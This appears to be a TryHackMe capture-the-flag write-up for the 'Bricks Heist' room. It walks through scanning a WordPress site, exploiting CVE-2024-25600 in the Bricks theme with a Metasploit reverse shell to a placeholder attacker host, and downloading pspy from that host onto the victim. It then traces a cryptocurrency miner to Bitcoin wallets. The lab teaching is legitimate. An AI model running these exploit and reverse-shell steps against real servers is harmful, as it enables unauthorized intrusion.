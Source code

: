```yaml
---
layout: post
title: TryHackMe/Easy/Bricks
abbrlink: 36b77167b84b4e419414f87b615bccce
tags:
  - wordpress
  - cve-2024-25600
  - web
  - linux
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - "TryHack3M: Bricks Heist"
date: 1716220859129
updated: 1716658114980
---
```


<https://tryhackme.com/r/room/tryhack3mbricksheist>

# Scenario

From Three Million Bricks to Three Million Transactions!

Brick Press Media Co. was working on creating a brand-new web theme that represents a renowned wall using three million byte bricks. Agent Murphy comes with a streak of bad luck. And here we go again: the server is compromised, and they've lost access.

Can you hack back the server and identify what happened there?

**Note**: Add `10.10.103.104 bricks.thm` to your `/etc/hosts` file.

# Enumeration

## \[+] 10.10.103.104 - bricks.thm

Using `echo` and `>>` to append the IP address with the domain name to my `/etc/hosts` file. Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

First I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online:

```sh
sudo echo '10.10.75.38 bricks.thm' >> /etc/hosts
export RHOSTS=10.10.103.104
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 443 - HTTPS

### \[-] bricks.thm

![712a54843159523d1c290c8dedcd7c0a.png](/resources/6aa6bd862401461f985a5768e7265656.png)

This page looks pretty plain, so let's take a look at the source code. On line 41, we find that this web page is powered by WordPress:

![8742c1b44dfe99e70d19aae7b45ce2c5.png](/resources/648f938e1c364089be766f0959ddc783.png)

We can use a tool like [WPScan](https://github.com/wpscanteam/wpscan) to further enumerate the web site.

```sh
wpscan --url https://bricks.thm --disable-tls-checks
```

WPScan was able to find the theme and version (Bricks 1.9.5) that is running on WordPress:

![cc304851239b0504235518c48ac143f9.png](/resources/57aab9e851d145e1a041023a17adcc56.png)

# Initial Foothold

### \[-] apache\@tryhackme

Searching for "bricks 1.9.5 exploit" had many results which had working exploits. There is also a Metasploit module (`exploit/multi/http/wp_bricks_builder_rce`) which we can run using `msfconsole`:

```sh
msfconsole
search bricks
use 0
```

![c37ba150b5064022755b348f18469a0f.png](/resources/b21b938a7fa34ed7a3cf67d7e1fff566.png)

Now we type `options` and fill in the field using `set <OPTION> <VALUE>`. After configuring all the options, it should look similar to this:

```sh
options
set rhosts bricks.thm
set rport 443
set ssl true
set lhost <ATTACKER_IP>
```

![bd40fa39bc991d0efd405af14bacc7e1.png](/resources/d1018acecf5a4d048879fbd0414a9e43.png)

For the payload option, we'll use a normal TCP reverse shell and run the exploit. After a moment we'll receive a connection back to our reverse shell as the user `apache`:

```sh
set payload payload/generic/shell_reverse_tcp
run
```

![782e0ae454314e4555e530ddb3c456cb.png](/resources/7edfb04453fc4a0da35ca385f8bcc87f.png)

We can stabilize the shell a bit using:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Then list the files in the current directory and get the first flag:

```sh
ls -lah
cat <FILENAME>.txt
```

![6c0ad9cd1e3ab1bac72d262ef54b8fbb.png](/resources/ac896d23af34476c875517005c8f1520.png)

For the next question, to enumerate the running processes on the victime machine, we'll need to use [pspy](https://github.com/DominicBreuker/pspy/releases) tool. On the attacker machine download the latest release 32-bit or 64-bit. Then use Python to host the file using:

```sh
python3 -m http.server 8888
```

Then on the victim machine, we move to the `/tmp` directory first before downloading pspy using `wget`. After the file has been downloaded, use `chmod` to make it executable and run it with `./pspy`:

```sh
cd /tmp
wget <ATTACKER_IP>:8888/pspy
chmod +x pspy
./pspy
```

We'll have to leave pspy running for a couple of minutes until we see the suspicious process towards the bottom of the log:

![f18b0a817525d43b224429cb6be549a3.png](/resources/ceb49600150c4d8cb5b1f213dc337d18.png)

After making not of the suspicious process, press `Ctrl + C` and then answer `N` when prompted to get back to the shell.

For the next question, we can list all the running services and look through the list for anything suspicious:

```sh
systemctl list-units --type=service --state=running
```

![cebbc76ee2bc4c7c82db12b1746b5b49.png](/resources/f052dfb92dfa405ca1c43fd3eb0d7c99.png)

For the last three questions, we will have to do some external research. First we can get the SHA-256 hash of the suspicious file using `sha256sum` and search for it on [VirusTotal](https://www.virustotal.com/gui/file/2d96bf6e392bbd29c2d13f6393410e4599a40e1f2fe9dc8a7b744d11f05eb756/detection):

```sh
sha256sum <SUSPICIOUS_FILE>
```

Under the "Behavior" tab, we scroll down and expand the "Files Written" section:

![bf67304e501522bb7693def8494aa7ae.png](/resources/e766b712f4b843798650dda8ba6d00cf.png)

![839cced10c76d807f259940b87cba48c.png](/resources/040d6628d5644b749a86464cf9b6c6d8.png)

If we print the contents of this file using `cat`, we'll find a log for a cryptocurrency miner:

![985a45ede0d5bdc55e07a81363fc8a89.png](/resources/6739445e2d444a6f8a1ae435e66e6369.png)

To find the wallet, we copy the long alphanumeric string next to "ID" from the logs, paste it into [CyberChef](https://gchq.github.io/CyberChef/#input=NTc1NzMxNGU2NTQ3NGU1OTYyNDg0YTRmNjU2ZDc4NzQ1NzU0NGU0MjRlNTc0NjQ4NTU1NDQ2Njg0ZDMwNzA3MzU5MzA2ODRiNjE2YzcwNTU1YTdhNTY2YjUyMzM1Mjc2NTQ2YjY4NmI2NTU3NTI0ODY0N2E1MjVhNTc0NjZmNzc1NDZiNjQzMzRkNmIzNDdhNTI2ZDY4NWE2MjU1MzEzNDU5MzE2ODczNjM2YjM1MzY2MjQ3MzE1YTRkMzA0NTMxNTk1NTY0NDc2MTMwMzU1ODY0NDg2YzYxNTc0NTRhMzU1NzU0NGE1NjRlNDUzOTU5NTU2ZTRhNjg1MjQ2NDk3YTU5MzIzNTUzNjMzMDM5NDg1MjZhNGE2YjUyNDY0YTdhNTQ2ZDcwNmI2NTQ2NmM1MjUwNTQzMDNk) and click on the magic wand icon:

![9993969ab76ca8c904ddd388a599576a.png](/resources/478b17ee2cfc48978053517e66547889.png)

After CyberChef has converted the string, it should start with `bc1` which indicates it's a Bitcoin address in Bech32 format. So there are actually two addresses here. Copy from `bc1` until you see `bc1` which indicates the start of the next address.

For the last question, we can search this Bitcoin address and find articles related to the people responsible for the malware.

